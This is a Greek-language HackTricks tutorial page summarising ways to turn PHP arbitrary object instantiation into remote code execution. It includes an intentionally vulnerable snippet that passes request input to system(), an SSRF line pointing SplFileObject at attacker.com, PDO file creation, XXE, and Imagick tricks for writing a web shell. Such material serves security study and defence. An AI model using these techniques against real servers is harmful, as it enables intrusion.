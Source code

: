 # PHP - RCE κατάχρηση της δημιουργίας αντικειμένου: new $\_GET\["a"]\($\_GET\["b"])

<details>

<summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

Αυτό είναι ουσιαστικά ένα σύνοψη του [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Εισαγωγή

Η δημιουργία νέων αυθαίρετων αντικειμένων, όπως `new $_GET["a"]($_GET["a"])`, μπορεί να οδηγήσει σε εκτέλεση απομακρυσμένου κώδικα (RCE), όπως περιγράφεται λεπτομερώς σε ένα [**άρθρο**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). Αυτό το έγγραφο αναδεικνύει διάφορες στρατηγικές για την επίτευξη RCE.

## RCE μέσω προσαρμοσμένων κλάσεων ή αυτόματης φόρτωσης

Η σύνταξη `new $a($b)` χρησιμοποιείται για τη δημιουργία ενός αντικειμένου όπου **`$a`** αντιπροσωπεύει το όνομα της κλάσης και **`$b`** είναι το πρώτο όρισμα που περνάται στον κατασκευαστή. Αυτές οι μεταβλητές μπορούν να προέρχονται από εισόδους χρήστη όπως GET/POST, όπου μπορεί να είναι συμβολοσειρές ή πίνακες, ή από JSON, όπου μπορεί να παρουσιάζονται ως άλλους τύπους.

Λάβετε υπόψη το ακόλουθο απόσπασμα κώδικα:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
Σε αυτήν την περίπτωση, η ρύθμιση του `$a` σε `App` ή `App2` και του `$b` σε ένα σύστημα εντολής (π.χ. `uname -a`) οδηγεί στην εκτέλεση αυτής της εντολής.

Οι **συναρτήσεις αυτόματης φόρτωσης** μπορούν να εκμεταλλευτούνται εάν δεν υπάρχουν απευθείας προσβάσιμες τέτοιες κλάσεις. Αυτές οι συναρτήσεις φορτώνουν αυτόματα κλάσεις από αρχεία όταν απαιτείται και ορίζονται χρησιμοποιώντας τις `spl_autoload_register` ή `__autoload`:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Το συμπεριφορά του autoloading ποικίλει ανάλογα με τις εκδόσεις του PHP, προσφέροντας διάφορες δυνατότητες RCE.

## RCE μέσω Ενσωματωμένων Κλάσεων

Σε περίπτωση που δεν υπάρχουν προσαρμοσμένες κλάσεις ή autoloaders, οι **ενσωματωμένες κλάσεις του PHP** μπορεί να επαρκούν για RCE. Ο αριθμός αυτών των κλάσεων κυμαίνεται από 100 έως 200, ανάλογα με την έκδοση του PHP και τις επεκτάσεις. Μπορούν να εμφανιστούν χρησιμοποιώντας την εντολή `get_declared_classes()`.

Οι ενδιαφέρουσες constructors μπορούν να εντοπιστούν μέσω του reflection API, όπως φαίνεται στο παρακάτω παράδειγμα και στον σύνδεσμο [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**RCE μέσω συγκεκριμένων μεθόδων περιλαμβάνει:**

### **SSRF + Phar Deserialization**

Η κλάση `SplFileObject` επιτρέπει το SSRF μέσω του constructor της, επιτρέποντας συνδέσεις σε οποιαδήποτε διεύθυνση URL:
```php
new SplFileObject('http://attacker.com/');
```
Το SSRF μπορεί να οδηγήσει σε επιθέσεις αποσυνεργοποίησης σε εκδόσεις του PHP πριν από την 8.0 χρησιμοποιώντας το πρωτόκολλο Phar.

### **Εκμεταλλευόμενοι τα PDOs**

Ο κατασκευαστής της κλάσης PDO επιτρέπει συνδέσεις με βάσεις δεδομένων μέσω συμβολοσειρών DSN, που ενδέχεται να επιτρέπουν τη δημιουργία αρχείων ή άλλων αλληλεπιδράσεων:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Οι εκδόσεις του PHP μέχρι την 5.3.22 και 5.4.12 ήταν ευάλωτες σε επιθέσεις XXE μέσω των κατασκευαστών `SoapClient` και `SimpleXMLElement`, ανάλογα με την έκδοση του libxml2.

## RCE μέσω της επέκτασης Imagick

Στην ανάλυση των εξαρτήσεων ενός έργου, ανακαλύφθηκε ότι η Imagick μπορεί να χρησιμοποιηθεί για την εκτέλεση εντολών μέσω της δημιουργίας νέων αντικειμένων. Αυτό παρέχει μια ευκαιρία για την εκμετάλλευση ευπαθειών.

### Ανάλυση VID

Αναγνωρίστηκε η δυνατότητα του αναλυτή VID να γράφει περιεχόμενο σε οποιοδήποτε καθορισμένο μονοπάτι στο σύστημα αρχείων. Αυτό μπορεί να οδηγήσει στην τοποθέτηση ενός PHP shell σε έναν κατάλογο προσβάσιμο μέσω του web, επιτυγχάνοντας Remote Code Execution (RCE).

#### Ανάλυση VID + Μεταφόρτωση Αρχείου

Σημειώνεται ότι το PHP προσωρινά αποθηκεύει τα μεταφορτωμένα αρχεία στο `/tmp/phpXXXXXX`. Ο αναλυτής VID στην Imagick, χρησιμοποιώντας το πρωτόκολλο **msl**, μπορεί να χειριστεί μπαλαντέρ στα μονοπάτια των αρχείων, διευκολύνοντας τη μεταφορά του προσωρινού αρχείου σε μια επιλεγμένη τοποθεσία. Αυτή η μέθοδος προσφέρει μια επιπλέον προσέγγιση για την επίτευξη αυθαίρετης εγγραφής αρχείων στο σύστημα αρχείων.

### Ανεξέλεγκτο Κρασάρισμα PHP + Βίαιη Δοκιμή

Μια μέθοδος που περιγράφεται στο [**αρχικό άρθρο**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) περιλαμβάνει τη μεταφόρτωση αρχείων που προκαλούν την κατάρρευση του διακομιστή πριν τη διαγραφή τους. Με τη βίαιη δοκιμή του ονόματος του προσωρινού αρχείου, γίνεται δυνατή η εκτέλεση αυθαίρετου κώδικα PHP από την Imagick. Ωστόσο, αυτή η τεχνική βρέθηκε να είναι αποτελεσματική μόνο σε μια ξεπερασμένη έκδοση του ImageMagick.

## Αναφορές

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

<details>

<summary><strong>Μάθετε το hacking στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF**, ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Συμμετάσχετε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα κόλπα σας για το hacking υποβάλλοντας PRs** στα αποθετήρια του [**HackTricks**](https://github.com/carlospolop/hacktricks) και του [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) στο GitHub.

</details>
